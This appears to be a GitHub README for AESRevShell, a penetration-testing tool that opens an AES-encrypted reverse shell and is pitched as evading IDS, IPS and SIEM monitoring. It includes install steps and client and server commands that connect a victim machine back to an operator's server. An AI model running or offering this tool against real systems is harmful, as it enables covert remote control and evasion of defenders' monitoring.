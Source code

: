 # AESRevShell
AESRevShell is a secure reverse shell tool that utilizes AES encryption (CBC mode) to ensure encrypted communication between a client and a server. This project demonstrates a simple yet powerful way to establish a secure command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By encrypting the communication with AES, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a useful tool for penetration testing in environments with strict monitoring.

### Key features:
- **AES encryption (CBC mode)** for secure data transmission.
- **Client-server architecture** for reverse shell functionality.
- **Key and IV validation** to ensure both parties use the correct encryption parameters.
- **Command execution:** The server sends commands to the client, which are executed and returned securely.
- **Bypass of IDS/IPS/SIEM:** AES encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.

This project is intended for educational purposes and to demonstrate how AES encryption can be used in real-time communication for security testing and penetration testing scenarios.

## Demos
![image](https://github.com/user-attachments/assets/fa632162-df75-4409-9db0-ddffb113dbb4)
![image](https://github.com/user-attachments/assets/afabc598-1cd5-4205-89aa-f32b6a2a5361)

## Installation
- `sudo apt update && sudo apt install -y python3-pip`
- `python3 -m pip install --upgrade cryptography`
- `git clone https://github.com/OusCyb3rH4ck/AESRevShell`
- `cd AESRevShell`
- `chmod +x client.py server.py`

## Usage (for server)
- `./server.py -i 0.0.0.0 -p 443` ***(put any port you want)***

## Usage (for client)
- `./client -s SERVER_IP -p PORT -k AES_KEY -v AES_IV` ***(all proportioned by the server)***
